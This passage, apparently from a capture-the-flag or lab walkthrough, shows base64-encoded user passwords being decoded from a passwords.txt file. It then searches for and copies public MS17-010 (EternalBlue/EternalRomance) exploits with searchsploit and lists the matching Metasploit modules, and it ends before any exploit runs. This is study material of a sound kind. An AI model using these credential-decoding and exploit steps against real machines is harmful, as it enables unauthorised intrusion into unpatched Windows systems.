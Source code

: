     $ cat passwords.txt
    [User Passwords - Encoded]
    Qm9iIC0gIVBAJCRXMHJEITEyMw==
    QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

Are those base64-encoded credentials?

    $ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
    Bob - !P@$$W0rD!123                                                                                
    $ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
    Bill - Juw4nnaM4n420696969!$$$

## Exploiting SMB MS17-010

    $ searchsploit MS17-010                
    ---------------------------------------------- ---------------------------------
     Exploit Title                                |  Path
    ---------------------------------------------- ---------------------------------
    Microsoft Windows - 'EternalRomance'/'Eternal | windows/remote/43970.rb
    Microsoft Windows - SMB Remote Code Execution | windows/dos/41891.rb
    Microsoft Windows 7/2008 R2 - 'EternalBlue' S | windows/remote/42031.py
    Microsoft Windows 7/8.1/2008 R2/2012 R2/2016  | windows/remote/42315.py
    Microsoft Windows 8/8.1/2012 R2 (x64) - 'Eter | windows_x86-64/remote/42030.py
    Microsoft Windows Server 2008 R2 (x64) - 'Srv | windows_x86-64/remote/41987.py
    ---------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results

Mirroring:

    $ searchsploit -m windows/remote/43970.rb
      Exploit: Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)
          URL: https://www.exploit-db.com/exploits/43970
         Path: /usr/share/exploitdb/exploits/windows/remote/43970.rb
    File Type: Ruby script, ASCII text
    
    Copied to: /home/nina/43970.rb

Firing up Metasploit:

    msf6 > search MS17-010
    
    Matching Modules
    ================
    
       #  Name                                      Disclosure Date  Rank     Check  Description
       -  ----                                      ---------------  ----     -----  -----------
       0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
       1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
       2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
       3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
       4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
    